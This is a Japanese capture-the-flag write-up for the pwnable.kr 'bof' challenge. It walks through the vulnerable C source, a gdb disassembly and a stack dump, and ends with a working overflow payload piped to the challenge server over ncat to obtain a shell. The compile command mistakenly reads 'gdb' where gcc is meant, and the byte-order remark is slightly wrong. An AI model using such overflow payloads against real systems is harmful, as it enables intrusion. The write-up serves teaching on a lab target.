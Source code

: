 # bof

つまり、 Buffer Overflow ですね。

## 動作確認

まずは実行してみましょう。

```
$ ./bof
overflow me :
AAAAAAAAAAAAAAAA  <-- とりあえず A(0x41) を入力
Nah..
```

`overflow me` と表示してヒントを出してくれています。


## 処理内容

bof.c の処理を確認してみましょう。

```c
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);	// smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

`func` 関数の中で、引数 `key` の値をチェックして判断しています。

この値が `0xcafebabe` であれば、shコマンドを操作できるようになるようです。

また、 `main` 関数からは `func` 関数に対して `0xdeadbeef` という値を渡しています。

ポイントは `// smash me!` というコメントのある行です。 `gets` はバッファオーバーフローの脆弱性があり、現在は使用してはいけない関数です。

その脆弱性を攻撃していきましょう。


## 解析

`bof` ファイルの中を覗いてみます。

```bash
$ gdb ./bof
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   %ebp
   0x0000062d <+1>:	mov    %esp,%ebp
   0x0000062f <+3>:	sub    $0x48,%esp
   0x00000632 <+6>:	mov    %gs:0x14,%eax
   0x00000638 <+12>:	mov    %eax,-0xc(%ebp)
   0x0000063b <+15>:	xor    %eax,%eax
   0x0000063d <+17>:	movl   $0x78c,(%esp)
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    -0x2c(%ebp),%eax        <== (1)
   0x0000064c <+32>:	mov    %eax,(%esp)
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmpl   $0xcafebabe,0x8(%ebp)   <== (2)
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	movl   $0x79b,(%esp)
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	movl   $0x7a3,(%esp)
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    -0xc(%ebp),%eax
   0x0000067a <+78>:	xor    %gs:0x14,%eax
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave
   0x00000689 <+93>:	ret
End of assembler dump.
```

(2) のステップで、引数 `key` の値をチェックしています。

その値は、(1) のステップで取得しています。

(1) では、%ebp (ベースポインタ) を -0x2c 遡ったところから取得しているので、 バッファは 0x2c (44バイト) あります。

44文字入力すると、バッファを埋められそうです。

次に、手元の環境でデバッグ(gdb)できるように、コンパイルしてみます。

```bash
$ gdb -m32 ./bof.c -o mybof
```

`mybof` という実行ファイルができますので、gdbコマンドでデバッグ実行します。

```bash
$ gdb ./mybof
(gdb) disas func
Dump of assembler code for function func:
   0x565561c9 <+0>:	push   %ebp
   0x565561ca <+1>:	mov    %esp,%ebp
   0x565561cc <+3>:	push   %ebx
   0x565561cd <+4>:	sub    $0x24,%esp
   0x565561d0 <+7>:	call   0x565560d0 <__x86.get_pc_thunk.bx>
   0x565561d5 <+12>:	add    $0x2e2b,%ebx
   0x565561db <+18>:	sub    $0xc,%esp
   0x565561de <+21>:	lea    -0x1ff8(%ebx),%eax
   0x565561e4 <+27>:	push   %eax
   0x565561e5 <+28>:	call   0x56556030 <printf@plt>
   0x565561ea <+33>:	add    $0x10,%esp
   0x565561ed <+36>:	sub    $0xc,%esp
   0x565561f0 <+39>:	lea    -0x28(%ebp),%eax
   0x565561f3 <+42>:	push   %eax
   0x565561f4 <+43>:	call   0x56556040 <gets@plt>
   0x565561f9 <+48>:	add    $0x10,%esp
   0x565561fc <+51>:	cmpl   $0xcafebabe,0x8(%ebp)  <== (3)
   0x56556203 <+58>:	jne    0x56556219 <func+80>
   0x56556205 <+60>:	sub    $0xc,%esp
   0x56556208 <+63>:	lea    -0x1fe9(%ebx),%eax
   0x5655620e <+69>:	push   %eax
   0x5655620f <+70>:	call   0x56556060 <system@plt>
   0x56556214 <+75>:	add    $0x10,%esp
   0x56556217 <+78>:	jmp    0x5655622b <func+98>
   0x56556219 <+80>:	sub    $0xc,%esp
   0x5655621c <+83>:	lea    -0x1fe1(%ebx),%eax
   0x56556222 <+89>:	push   %eax
   0x56556223 <+90>:	call   0x56556050 <puts@plt>
   0x56556228 <+95>:	add    $0x10,%esp
   0x5655622b <+98>:	nop
   0x5655622c <+99>:	mov    -0x4(%ebp),%ebx
   0x5655622f <+102>:	leave
   0x56556230 <+103>:	ret
End of assembler dump.
```

先程の `bof` の内容と異なっていますが、(3) のステップで値を判定していますので、ブレークポイントを設定してバッファの内容を確認してみます。

```bash
(gdb) b *0x565561fc
Breakpoint 1 at 0x565561fc
(gdb) r
Starting program: /usr/src/app/00_ToddlersBottle/02_bof/mybof
overflow me : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA     <== 44文字の A (0x41) を入力

Breakpoint 1, 0x565561fc in func ()
(gdb) x/20xhw $esp
0xffffdcd0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdce0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffdcf0:	0x41414141	0x41414141	0x41414141	0x56556200  <== あと 8バイト でチェック対象のポインタに到達する
0xffffdd00:	0xdeadbeef	0xffffddc4	0xffffddcc	0x56556247  <== チェック対象（0xdeadbeef）
0xffffdd10:	0xf7fe4140	0xffffdd30	0x00000000	0xf7e01ef1
(gdb) q
```

ということで、 52文字 (44バイト + 8バイト) の後ろに `0xcafebabe` を差し込むとバッファオーバーフロー攻撃が成立します。


## Capture the Flag

```bash
$ (python3 -c 'import sys; sys.stdout.buffer.write(bytes.fromhex("41"*52+"bebafeca"))';cat) | ncat -v pwnable.kr 9000
whoami
ls
cat flag
```


## Incidentally

0xcafebabe とそのまま渡すのではなく `bebafeca` と 2バイトずつ逆順にしているのは

実行ファイルの情報を見ると、リトルエンディアン(little endian) だからです。

```bash
$ readelf -h ./bof
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  ...
```
